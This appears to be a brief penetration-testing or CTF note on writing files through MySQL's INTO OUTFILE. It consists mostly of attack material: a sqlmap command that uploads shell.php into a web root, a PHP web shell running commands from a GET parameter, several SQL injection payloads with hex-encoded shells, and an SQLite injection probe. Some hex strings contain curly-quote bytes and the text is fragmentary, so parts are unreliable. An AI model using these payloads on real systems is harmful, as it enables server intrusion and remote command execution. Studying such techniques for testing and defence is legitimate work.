 # Into outfile
[https://websec.wordpress.com/2007/11/17/mysql-into-outfile/](https://websec.wordpress.com/2007/11/17/mysql-into-outfile/) 

```text-plain
sqlmap -r /tmp/req.sql --file-dest="/var/www/html/shell.php" --file-write="/root/shells/shell.php"
```

So to exploit this, we encoded a simple PHP payload to HEX:

`<?php system($_GET["cmd"]); ?>`

And added it to our exploit:

```text-plain
" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/shell.php' -- -
```

```text-plain
'INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E-- -
```

`Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d INTO OUTFILE '/var/www/html/shell.php'` `<?php system("ls"); ?>`

`' AND "1" = “2” UNION SELECT title FROM challenges WHERE type ="table" AND name NOT LIKE 'sqlite_%`